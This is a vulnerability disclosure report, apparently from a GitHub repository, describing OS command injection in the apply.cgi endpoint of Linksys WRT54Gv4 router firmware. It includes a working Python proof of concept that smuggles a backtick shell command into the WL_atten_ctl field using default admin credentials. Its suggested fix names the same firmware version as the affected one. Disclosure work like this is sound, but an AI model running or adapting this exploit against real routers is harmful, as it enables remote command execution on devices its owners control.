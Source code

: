 # CVE Report - Command Injection Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Routers 

## Vulnerability Title

Command Injection Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Router. 

## Vulnerability Description

Linksys FW_WRT54Gv4 devices have an OS command injection vulnerability in the CGl interface "apply.cgi",which allows remote attackers to execute arbitrary commands via parameter **WL_atten_ctl**  and **WL_atten_radio** passed to the "apply.cgi" binary through a POST request.



## POC

```python
import requests

url = "http://{ip}/apply.cgi"

headers = {
    "Host": ip,
    "Content-Length": "146",
    "Cache-Control": "max-age=0",
    "Authorization": "Basic YWRtaW46YWRtaW4=",
    "Accept-Language": "zh-CN",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://172.17.0.4",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "keep-alive"
}

data = {
    "WL_atten_bb": "1",
    "WL_atten_radio": "1",
    "WL_atten_ctl": "`touch 1.txt`",
    "WL_delay":"1"
}

response = requests.post(url, headers=headers, data=data)

print("Status Code:", response.status_code)
print("Response Content:", response.text)

```



## Cause Analysis

The get_cgi function accepts external data. The user affects v5 by setting the WL_atten_ctl value. It enters system execution, resulting in a command execution vulnerability.

![image-20250226211642419](C:\Users\XiaoA\AppData\Roaming\Typora\typora-user-images\image-20250226211642419.png)

![image-20250226211659312](C:\Users\XiaoA\AppData\Roaming\Typora\typora-user-images\image-20250226211659312.png)

## Suggested Fix

It is recommended to update to the version FW_WRT54Gv4_4.21.5 of router to fix this vulnerability. 

